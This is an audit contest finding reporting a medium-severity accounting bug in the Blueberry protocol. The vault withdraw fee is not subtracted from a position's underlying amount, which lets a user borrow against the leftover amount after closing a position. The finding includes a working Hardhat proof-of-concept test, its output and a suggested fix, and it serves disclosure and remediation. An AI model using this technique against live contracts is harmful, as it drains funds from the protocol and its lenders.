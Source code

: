evan

medium

# Underlying amount after withdrawLend is incorrect if hard/soft vault has withdraw fee

## Summary
The accounting for hard/soft vault withdraw fee is incorrect. It's possible for underlyingAmount to be >0 even when the position is fully closed. This will allow user to borrow more assets without needing to lend anything.

## Vulnerability Detail
https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/vault/SoftVault.sol#L118
^^ Observe that the withdrawAmount returned by softVault does not include the fee.

https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/BlueBerryBank.sol#L698
^^ blueBerryBank subtracts the withdrawAmount returned by softVault from pos.underlyingAmount. Therefore, the fee is not subtracted from the underlyingAmount.

After fully closing their position, the user can use this bonus underlyingAmount to borrow a small amount of assets (making sure that the risk doesn't exceed the liquidation threshold even when the position value is 0) and retrieve it by calling closePosition with `lpTakeAmt`=max, `amountRepay` = `amountShareWithdraw` = `amountLpWithdraw` = 0.

## Impact
Without lending any extra assets, the user can still borrow more assets after fully closing a position. The assets that they borrowed for free can be retrieved, effectively allowing the user to avoid the withdraw vault fee.

## Code Snippet
Please put this test in bank.test.ts, and run `yarn hardhat test --grep Vuln4`
```javascript
	describe("Vuln4", () => {
		const depositAmount = utils.parseUnits('100', 18);
		const borrowAmount = utils.parseUnits('300', 6);
		
		const iface = new ethers.utils.Interface(SpellABI);

		beforeEach(async () => {
			await usdc.approve(bank.address, ethers.constants.MaxUint256);
			await ichi.approve(bank.address, ethers.constants.MaxUint256);
			await bank.execute(
				0,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					USDC,
					depositAmount,
					borrowAmount
				])
			)
			config.startVaultWithdrawFee();
		})
		it("incorrect underlyingAmount", async () => {
			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			await usdc.transfer(spell.address, utils.parseUnits('10', 6));
			console.log("user original underlyingAmount: ")
			let posInfo = await bank.getPositionInfo(1);
			console.log(posInfo.underlyingAmount);

			await bank.execute(
				1,
				spell.address,
				iface.encodeFunctionData("closePosition", [
					0,
					ICHI,
					USDC, // ICHI vault lp token is collateral
					ethers.constants.MaxUint256,	// Amount of werc20
					ethers.constants.MaxUint256,  // Amount of repay
					0,
					ethers.constants.MaxUint256,
				])
			)
			console.log("user underlyingAmount after fully closing position: ")
			posInfo = await bank.getPositionInfo(1);
			console.log(posInfo.underlyingAmount);
			
			console.log("user usdc balance before: ")
			console.log(await usdc.balanceOf(admin.address));
			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			await bank.execute(
				1,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					USDC,
					0,
					utils.parseUnits('2', 6)
				])
			);
			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			await bank.execute(
				1,
				spell.address,
				iface.encodeFunctionData("closePosition", [
					0,
					ICHI,
					USDC,
					ethers.constants.MaxUint256,
					0, 
					0,
					0,
				])
			)
			console.log("user usdc balance after: ")
			console.log(await usdc.balanceOf(admin.address));
		})
	})
```
Relevant output:
```plaintext
user original underlyingAmount: 
BigNumber { value: "99500000000000000000" }
user underlyingAmount after fully closing position: 
BigNumber { value: "995000000000000000" }
user usdc balance before: 
BigNumber { value: "37306263596" }
user usdc balance after: 
BigNumber { value: "37308252977" }
```
Observe that the user's underlyingAmount is not 0 even after fully closing a position. The user takes advantage of this to get around 2 
extra USDC. If the user had a larger initial position, then this value will be much more significant (~= 1% (withdrawVaultFee) of the original underlying amount).

## Tool used
Hardhat
Manual Review

## Recommendation
https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/vault/SoftVault.sol#L118
The withdraw function in soft/hardVault should return both the withdrawAmount without the fee deducted and the amount with the fee deducted.

https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/BlueBerryBank.sol#L698-L699
These 2 lines should use the the withdrawAmount without the fee deducted.
